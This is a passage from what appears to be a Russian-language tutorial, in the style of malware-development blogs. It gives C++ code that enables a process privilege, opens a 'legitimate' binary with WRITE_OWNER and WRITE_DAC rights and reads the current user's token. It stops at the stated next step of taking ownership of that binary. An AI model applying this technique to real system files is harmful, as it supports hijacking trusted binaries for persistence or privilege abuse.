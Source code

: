 ```cpp
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Как вы можете видеть, эта функция используется для включения указанной привилегии для текущего процесса.

Затем открывает легитимный двоичный файл с требуемыми правами доступа (`WRITE_OWNER` и `WRITE_DAC`):

```cpp
HANDLE hFile = CreateFileA((LPCSTR)legitApp, WRITE_OWNER | WRITE_DAC, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

Затем получаем информацию о токене:

```cpp
// obtain the SID for the current user
HANDLE hToken;
DWORD dwSize = 0;
PTOKEN_USER pTokenUser = NULL;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;
}
printf("open process token: ok\n");

// get the required size for the token information
GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("allocate memory token info: ok\n");

// get the token information
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("get token info: ok\n");
```

На следующем шаге нам необходимо изменить владельца законного двоичного файла на текущего пользователя:    
